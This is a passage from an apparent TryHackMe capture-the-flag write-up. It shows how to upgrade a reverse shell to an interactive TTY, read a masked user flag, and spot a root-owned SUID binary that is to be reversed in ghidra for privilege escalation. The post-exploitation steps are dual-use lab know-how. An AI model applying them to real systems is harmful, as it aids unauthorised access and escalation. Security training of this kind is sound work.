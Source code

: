 ## Getting a Proper Shell
Now this shell is a bit hard to work with as it is not interactive. It lacks using arrow keys, autocompletion, and using keys like CTRL+C to kill a process. So We have to make this session a interactive session.

## Getting a proper TTY
Now lets get a proper shell with auto completion.
```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
Hit CRTL+z to background the current process and on local box type
```console
local@local:~/Documents/tryhackme/the_blob_blog$ stty raw -echo
```
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```console
sid@bookstore:~$  export TERM=xterm
```
Now we have a proper shell.

## Reading user.txt
```console
sid@bookstore:~$ cat user.txt 
4ea65eb8**************b964ab
```

# Privilege Escalation
On the home of user sid
```console
sid@bookstore:~$ ls -la
total 80
drwxr-xr-x 5 sid  sid   4096 Oct 20 03:16 .
drwxr-xr-x 3 root root  4096 Oct 20 02:21 ..
-r--r--r-- 1 sid  sid   4635 Oct 20 02:52 api.py
-r-xr-xr-x 1 sid  sid    160 Oct 14 21:49 api-up.sh
-r--r----- 1 sid  sid    116 Nov 29 15:08 .bash_history
-rw-r--r-- 1 sid  sid    220 Oct 20 02:21 .bash_logout
-rw-r--r-- 1 sid  sid   3771 Oct 20 02:21 .bashrc
-rw-rw-r-- 1 sid  sid  16384 Oct 19 22:03 books.db
drwx------ 2 sid  sid   4096 Oct 20 02:53 .cache
drwx------ 3 sid  sid   4096 Oct 20 02:53 .gnupg
drwxrwxr-x 3 sid  sid   4096 Oct 20 02:29 .local
-rw-r--r-- 1 sid  sid    807 Oct 20 02:21 .profile
-rwsrwsr-x 1 root sid   8488 Oct 20 03:01 try-harder
-r--r----- 1 sid  sid     33 Oct 15 11:14 user.txt
```
There is a file called **try-harder** which is owned by root and has SUID bit enabled, which means it runs with the effective privileges of  root when it runs. And if we can find any misconfigurations on this type of binary, we can execute code as root. So I donwloaded this file locally and reversed using ghidra.
